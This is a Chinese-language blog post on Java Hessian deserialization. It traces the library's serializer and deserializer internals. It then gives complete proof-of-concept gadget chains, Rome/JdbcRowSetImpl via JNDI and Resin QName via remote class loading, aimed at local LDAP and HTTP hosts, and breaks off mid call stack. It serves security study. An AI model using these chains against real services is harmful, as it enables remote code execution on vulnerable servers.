+++
title= "Hessian反序列化"
slug= "hessian-deserialization"
description= ""
date= "2025-11-18T01:00:59+08:00"
lastmod= "2025-11-18T01:58:59+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 序列化

HessianOutput 和 Hessian2Output 都是抽象类 AbstractHessianOutput 的实现，二者的 writeObject 方法一致，根据传入的 object 的类型，获取对应需要的序列化器，调用序列化器的 writeObject 方法序列化数据。代码如下

```java
public void writeObject(Object object) throws IOException {
    if (object == null) {
        this.writeNull();
    } else {
        Serializer serializer = this.findSerializerFactory().getObjectSerializer(object.getClass());
        serializer.writeObject(object, this);
    }
}
```

跟进 getObjectSerializer

```java
public Serializer getObjectSerializer(Class<?> cl) throws HessianProtocolException {
    Serializer serializer = this.getSerializer(cl);
    return serializer instanceof ObjectSerializer ? ((ObjectSerializer)serializer).getObjectSerializer() : serializer;
}
```

跟进 getSerializer

```java
public Serializer getSerializer(Class cl) throws HessianProtocolException {
    if (this._cachedSerializerMap != null) {
        Serializer serializer = (Serializer)this._cachedSerializerMap.get(cl);
        if (serializer != null) {
            return serializer;
        }
    }

    Serializer serializer = this.loadSerializer(cl);
    if (this._cachedSerializerMap == null) {
        this._cachedSerializerMap = new ConcurrentHashMap(8);
    }

    this._cachedSerializerMap.put(cl, serializer);
    return serializer;
}
```

接着跟进 loadSerializer

```java
    protected Serializer loadSerializer(Class<?> cl) throws HessianProtocolException {
        Serializer serializer = null;

        for(int i = 0; this._factories != null && i < this._factories.size(); ++i) {
            AbstractSerializerFactory factory = (AbstractSerializerFactory)this._factories.get(i);
            serializer = factory.getSerializer(cl);
            if (serializer != null) {
                return serializer;
            }
        }

        serializer = this._contextFactory.getSerializer(cl.getName());
        if (serializer != null) {
            return serializer;
        } else {
            ClassLoader loader = cl.getClassLoader();
            if (loader == null) {
                loader = _systemClassLoader;
            }

            ContextSerializerFactory factory = null;
            factory = ContextSerializerFactory.create(loader);
            serializer = factory.getCustomSerializer(cl);
            if (serializer != null) {
                return serializer;
            } else if (HessianRemoteObject.class.isAssignableFrom(cl)) {
                return new RemoteSerializer();
            } else if (BurlapRemoteObject.class.isAssignableFrom(cl)) {
                return new RemoteSerializer();
            } else if (InetAddress.class.isAssignableFrom(cl)) {
                return InetAddressSerializer.create();
            } else if (JavaSerializer.getWriteReplace(cl) != null) {
                Serializer baseSerializer = this.getDefaultSerializer(cl);
                return new WriteReplaceSerializer(cl, this.getClassLoader(), baseSerializer);
            } else if (Map.class.isAssignableFrom(cl)) {
                if (this._mapSerializer == null) {
                    this._mapSerializer = new MapSerializer();
                }

                return this._mapSerializer;
            } else if (Collection.class.isAssignableFrom(cl)) {
                if (this._collectionSerializer == null) {
                    this._collectionSerializer = new CollectionSerializer();
                }

                return this._collectionSerializer;
            } else if (cl.isArray()) {
                return new ArraySerializer();
            } else if (Throwable.class.isAssignableFrom(cl)) {
                return new ThrowableSerializer(this.getDefaultSerializer(cl));
            } else if (InputStream.class.isAssignableFrom(cl)) {
                return new InputStreamSerializer();
            } else if (Iterator.class.isAssignableFrom(cl)) {
                return IteratorSerializer.create();
            } else if (Calendar.class.isAssignableFrom(cl)) {
                return CalendarSerializer.SER;
            } else if (Enumeration.class.isAssignableFrom(cl)) {
                return EnumerationSerializer.create();
            } else if (Enum.class.isAssignableFrom(cl)) {
                return new EnumSerializer(cl);
            } else {
                return (Serializer)(Annotation.class.isAssignableFrom(cl) ? new AnnotationSerializer(cl) : this.getDefaultSerializer(cl));
            }
        }
    }
```

判断当前传入的`Object`是否属于某些已定义好的接口。如果存在，就生成对应的序列化器，如果不存在，就调用`com.caucho.hessian.io.SerializerFactory#getDefaultSerializer`方法针对自定义类加载默认的序列化器。现在我们去查找继承自 AbstractSerializer 的类



可能是我依赖整多了，有 28 个序列化器，跟进`SerializerFactory#getDefaultSerializer`

```java
protected Serializer getDefaultSerializer(Class cl) {
    if (this._defaultSerializer != null) {
        return this._defaultSerializer;
    } else if (!Serializable.class.isAssignableFrom(cl) && !this._isAllowNonSerializable) {
        throw new IllegalStateException("Serialized class " + cl.getName() + " must implement java.io.Serializable");
    } else {
        return (Serializer)(this._isEnableUnsafeSerializer && JavaSerializer.getWriteReplace(cl) == null ? UnsafeSerializer.create(cl) : JavaSerializer.create(cl));
    }
}
```

可以看到在默认情况下如果`_isEnableUnsafeSerializer`属性为`true`，并且传入的`cl`没有`writeReplace`方法，那么最后会创造一个`UnsafeSerializer`来作为序列化器。

继续跟进`UnsafeSerializer#writeObject`

```java
public void writeObject(Object obj, AbstractHessianOutput out) throws IOException {
        if (!out.addRef(obj)) {
            Class<?> cl = obj.getClass();
            int ref = out.writeObjectBegin(cl.getName());
            if (ref >= 0) {
                this.writeInstance(obj, out);
            } else if (ref == -1) {
                this.writeDefinition20(out);
                out.writeObjectBegin(cl.getName());
                this.writeInstance(obj, out);
            } else {
                this.writeObject10(obj, out);
            }

        }
    }
```

它会调用 writeObjectBegin 方法，然后根据 ref 进行下一步操作，而接下来就是 hessian 和 hessian2 的不同之处了，`HessianOutput`会直接调用父类的`AbstractHessianOutput#writeObjectBegin`方法，调试下发现直接写入`77`作为Map的标志，固定返回`-2`赋值给`writeObject`方法

```java
    public int writeObjectBegin(String type) throws IOException {
        this.writeMapBegin(type);
        return -2;
    }
```

去调用`UnsafeSerializer#writeObject10`方法，来逐个对字段进行序列化。并已writeMapEnd作为收尾。

```java
protected void writeObject10(Object obj, AbstractHessianOutput out) throws IOException {
        for(int i = 0; i < this._fields.length; ++i) {
            Field field = this._fields[i];
            out.writeString(field.getName());
            this._fieldSerializers[i].serialize(out, obj);
        }

        out.writeMapEnd();
    }
```

但是 Hessian2Output 重写了 writeObjectBegin 方法，跟进



可以写自定义类型的数据，返回`ref`为-1。调用 `writeDefinition20` 和 `Hessian2Output#writeObjectBegin` 方法写入自定义数据，不将其标记为 Map 类型。

总的来说

-  HessianOutput 在序列化的过程中默认将序列化结果处理成一个 Map 
-  Hessian2Output 在序列化的过程中可以序列化自定义的类 

## 反序列化

### hessian

跟进`HessianInput#readObject`，由于默认是将序列化结果处理成一个 Map 所以反序列化是直接到这里



接着跟进`SerializerFactory#readMap`

```java
public Object readMap(AbstractHessianInput in, String type) throws HessianProtocolException, IOException {
    Deserializer deserializer = this.getDeserializer(type);
    if (deserializer != null) {
        return deserializer.readMap(in);
    } else if (this._hashMapDeserializer != null) {
        return this._hashMapDeserializer.readMap(in);
    } else {
        this._hashMapDeserializer = new MapDeserializer(HashMap.class);
        return this._hashMapDeserializer.readMap(in);
    }
}
```

先获取反序列化器，然后再根据是否`_hashMapDeserializer`这个属性来触发，一般的都会到`MapDeserializer#readMap`，跟进`SerializerFactory#getDeserializer`

```java
public Deserializer getDeserializer(String type) throws HessianProtocolException {
        if (type != null && !type.equals("")) {
            if (this._cachedTypeDeserializerMap != null) {
                Deserializer deserializer;
                synchronized(this._cachedTypeDeserializerMap) {
                    deserializer = (Deserializer)this._cachedTypeDeserializerMap.get(type);
                }

                if (deserializer != null) {
                    return deserializer;
                }
            }

            Deserializer deserializer = (Deserializer)_staticTypeMap.get(type);
            if (deserializer != null) {
                return deserializer;
            } else {
                if (type.startsWith("[")) {
                    Deserializer subDeserializer = this.getDeserializer(type.substring(1));
                    if (subDeserializer != null) {
                        deserializer = new ArrayDeserializer(subDeserializer.getType());
                    } else {
                        deserializer = new ArrayDeserializer(Object.class);
                    }
                } else {
                    try {
                        Class cl = this.loadSerializedClass(type);
                        deserializer = this.getDeserializer(cl);
                    } catch (Exception e) {
                        log.warning("Hessian/Burlap: '" + type + "' is an unknown class in " + this.getClassLoader() + ":\n" + e);
                        log.log(Level.FINER, e.toString(), e);
                    }
                }

                if (deserializer != null) {
                    if (this._cachedTypeDeserializerMap == null) {
                        this._cachedTypeDeserializerMap = new HashMap(8);
                    }

                    synchronized(this._cachedTypeDeserializerMap) {
                        this._cachedTypeDeserializerMap.put(type, deserializer);
                    }
                }

                return deserializer;
            }
        } else {
            return null;
        }
    }
```

首先如果类型为空或空字符串直接返回 null，如果不为空，则进一步先检查本地缓存 _cachedTypeDeserializerMap，接着是数组型反序列化器，普通类会加载类并获取其反序列化器，还有就是缓存新建反序列化器，一般是加载类然后获取反序列化器。跟进`SerializerFactory#loadSerializedClass`



继续跟进，属于是直接反射了一下



跟进`SerializerFactory#getDeserializer`

```java
public Deserializer getDeserializer(Class cl) throws HessianProtocolException {
    if (this._cachedDeserializerMap != null) {
        Deserializer deserializer = (Deserializer)this._cachedDeserializerMap.get(cl);
        if (deserializer != null) {
            return deserializer;
        }
    }

    Deserializer deserializer = this.loadDeserializer(cl);
    if (this._cachedDeserializerMap == null) {
        this._cachedDeserializerMap = new ConcurrentHashMap(8);
    }

    this._cachedDeserializerMap.put(cl, deserializer);
    return deserializer;
}
```

继续跟进`SerializerFactory#loadDeserializer`

```java
protected Deserializer loadDeserializer(Class cl) throws HessianProtocolException {
        Deserializer deserializer = null;

        for(int i = 0; deserializer == null && this._factories != null && i < this._factories.size(); ++i) {
            AbstractSerializerFactory factory = (AbstractSerializerFactory)this._factories.get(i);
            deserializer = factory.getDeserializer(cl);
        }

        if (deserializer != null) {
            return deserializer;
        } else {
            deserializer = this._contextFactory.getDeserializer(cl.getName());
            if (deserializer != null) {
                return deserializer;
            } else {
                ContextSerializerFactory factory = null;
                if (cl.getClassLoader() != null) {
                    factory = ContextSerializerFactory.create(cl.getClassLoader());
                } else {
                    factory = ContextSerializerFactory.create(_systemClassLoader);
                }

                deserializer = factory.getDeserializer(cl.getName());
                if (deserializer != null) {
                    return deserializer;
                } else {
                    deserializer = factory.getCustomDeserializer(cl);
                    if (deserializer != null) {
                        return deserializer;
                    } else {
                        if (Collection.class.isAssignableFrom(cl)) {
                            deserializer = new CollectionDeserializer(cl);
                        } else if (Map.class.isAssignableFrom(cl)) {
                            deserializer = new MapDeserializer(cl);
                        } else if (Iterator.class.isAssignableFrom(cl)) {
                            deserializer = IteratorDeserializer.create();
                        } else if (Annotation.class.isAssignableFrom(cl)) {
                            deserializer = new AnnotationDeserializer(cl);
                        } else if (cl.isInterface()) {
                            deserializer = new ObjectDeserializer(cl);
                        } else if (cl.isArray()) {
                            deserializer = new ArrayDeserializer(cl.getComponentType());
                        } else if (Enumeration.class.isAssignableFrom(cl)) {
                            deserializer = EnumerationDeserializer.create();
                        } else if (Enum.class.isAssignableFrom(cl)) {
                            deserializer = new EnumDeserializer(cl);
                        } else if (Class.class.equals(cl)) {
                            deserializer = new ClassDeserializer(this.getClassLoader());
                        } else {
                            deserializer = this.getDefaultDeserializer(cl);
                        }

                        return deserializer;
                    }
                }
            }
        }
    }
```

加载默认的自定义类，但是由于 hessian1 默认序列化为 Map，所以这里返回为 MapDeserializer。

### hessian2

hessian2 和 hessian1基本一致，可以看到与序列化过程中获取加载器的流程相近，在最后的`SerializerFactory#getDefaultDeserializer`

```java
protected Deserializer getDefaultDeserializer(Class cl) {
    if (InputStream.class.equals(cl)) {
        return InputStreamDeserializer.DESER;
    } else {
        return (Deserializer)(this._isEnableUnsafeSerializer ? new UnsafeDeserializer(cl, this._fieldDeserializerFactory) : new JavaDeserializer(cl, this._fieldDeserializerFactory));
    }
}
```

会返回一个 UnsafeDeserializer，接着跟进到他的 readMap 方法

```java
public Object readMap(AbstractHessianInput in) throws IOException {
    try {
        Object obj = this.instantiate();
        return this.readMap(in, obj);
    } catch (IOException e) {
        throw e;
    } catch (RuntimeException e) {
        throw e;
    } catch (Exception e) {
        throw new IOExceptionWrapper(this._type.getName() + ":" + e.getMessage(), e);
    }
}
```

跟进 instantiate 方法

```java
    protected Object instantiate() throws Exception {
        return _unsafe.allocateInstance(this._type);
    }
```

绕过构造方法直接实例化对象

```java
public Object readMap(AbstractHessianInput in, Object obj) throws IOException {
        try {
            int ref = in.addRef(obj);

            while(!in.isEnd()) {
                Object key = in.readObject();
                FieldDeserializer2 deser = (FieldDeserializer2)this._fieldMap.get(key);
                if (deser != null) {
                    deser.deserialize(in, obj);
                } else {
                    in.readObject();
                }
            }

            in.readMapEnd();
            Object resolve = this.resolve(in, obj);
            if (obj != resolve) {
                in.setRef(ref, resolve);
            }

            return resolve;
        } catch (IOException e) {
            throw e;
        } catch (Exception e) {
            throw new IOExceptionWrapper(e);
        }
    }
```

对象引用注册，然后再循环读取键值对，收尾之后再更新引用表。

### MapDeserializer



前面提到过获取反序列化器之后都是触发的 readMap 方法，现在来看看`MapDeserializer#readMap`

```java
public Object readMap(AbstractHessianInput in) throws IOException {
        Map map;
        if (this._type == null) {
            map = new HashMap();
        } else if (this._type.equals(Map.class)) {
            map = new HashMap();
        } else if (this._type.equals(SortedMap.class)) {
            map = new TreeMap();
        } else {
            try {
                map = (Map)this._ctor.newInstance();
            } catch (Exception e) {
                throw new IOExceptionWrapper(e);
            }
        }

        in.addRef(map);

        while(!in.isEnd()) {
            map.put(in.readObject(), in.readObject());
        }

        in.readEnd();
        return map;
    }
```

默认`HashMap`，如果明确是`Map.class`，则为`HashMap`，明确是`SortedMap.class`则为`TreeMap`，而触发他们的 put 方法

- 对于`HashMap`会触发`key.hashCode()`、`key.equals(k)`， 
- 对于`TreeMap`会触发`key.compareTo()` 

## gadget

最后我们知道了`MapDeserializer#readMap`之后，其实就只需要找后半段链子，因为 hessian 在反序列化的时候会自动调用`map.put`。

### Rome--JdbcRowSetImpl

Rome 反序列化中的 JdbcRowSetImpl 链就是通过`ObjectBean#hashCode`去触发后续反序列化打 JNDI 注入，但是直接写发现并没成功，debug 发现因为 getDatabaseMetaData 方法在第四位



但是在第三位反射 setMatchColumn 方法的时候就抛出了错误





跟进 setMatchColumn

```java
    public void setMatchColumn(String var1) throws SQLException {
        if (var1 != null && !(var1 = var1.trim()).equals("")) {
            this.strMatchColumns.set(0, var1);
        } else {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.matchcols2").toString());
        }
    }
```

不赋值就会抛出错误，最终 poc 如下

```java
package org.hessian.gadget;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class JdbcRowSetImplPoc {
    public static void main(String[] args) throws Exception{
        String url = "ldap://127.0.0.1:1389/#Eval";

        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        jdbcRowset.setMatchColumn("test");

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "bbbb");

        Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
        dataSource.setAccessible(true);
        dataSource.set(jdbcRowset, url);

        byte[] data=serialize(hashMap);
        unserialize(data);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(baos);
        hessianOutput.writeObject(obj);
        hessianOutput.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }
}
```

调用栈如下

```java
at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:615)
at com.sun.rowset.JdbcRowSetImpl.getDatabaseMetaData(JdbcRowSetImpl.java:4004)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.ObjectBean.hashCode(ObjectBean.java:110)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.put(HashMap.java:611)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:577)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2093)
at org.hessian.base.JdbcRowSetImplPoc.unserialize(JdbcRowSetImplPoc.java:46)
at org.hessian.base.JdbcRowSetImplPoc.main(JdbcRowSetImplPoc.java:32)
```

### Resin--Qname

resin Qname 的这条链子直接可以用的

```java
package org.hessian.gadget;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Hashtable;

public class resinQnamePoc {
    public static void main(String[] args) throws Exception {
        Reference refObj = new Reference("Eval","Eval","http://127.0.0.1:8000/");
        Class<?> clazz = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = clazz.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(refObj);

        Hashtable<?, ?> hashtable = new Hashtable<>();
        Context continuationContext = (Context) constructor.newInstance(cpe, hashtable);
        QName qname = new QName(continuationContext,"aaa","bbb");

        String unhash = unhash(qname.hashCode());
        XString xstring = new XString(unhash);

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", xstring);
        map1.put("zZ", qname);
        map2.put("zZ", xstring);
        map2.put("yy", qname);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");

        byte[] payload = Hessian2_serialize(table);
        Hessian2_unserialize(payload);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }


    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }

    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

调用栈

```java
at Eval.<clinit>(Eval.java:12)
at java.lang.Class.forName0(Class.java:-1)
at java.lang.Class.forName(Class.java:348)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:72)
